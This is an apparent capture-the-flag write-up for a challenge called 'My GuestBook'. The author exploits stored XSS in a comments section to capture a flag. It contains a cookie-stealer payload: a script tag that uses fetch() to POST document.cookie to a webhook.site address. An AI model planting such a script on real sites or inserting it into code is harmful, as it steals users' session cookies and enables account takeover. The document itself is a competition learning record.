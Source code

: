 # 1 - My GuestBook 

## [Come Back to README](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/README.md)

## Solve

Let's go:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/1.png)

First I saw that page and I've tried if i can do xss inside comments:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/2.png)

It worked!

So I did grab that js xss cookie stealer:

```
</u>
<script>
	fetch('https://webhook.site/591c#$@#-#$@#-#$%^-#$%^-!@#$366d@#$@/cockie',
  {method:'POST', mode:'no-cors', body: document.cookie});
</script>
```

and I did post it in the comments section... then waited for an full hour 

and did get a flag:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/3.png)

It was just url encoded so I've decoded it

and I did report that flag to the bot:

![ctf](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/media/1/4.png)

## By The Way

Everyone had same page so everyone could learn something from other's or get rick rolled, noice bwoyz!

I've never had so much fun like on that challange

## [Come Back to README](https://github.com/xProsek720/MSHP_CTF_2023_WriteUp/blob/main/README.md)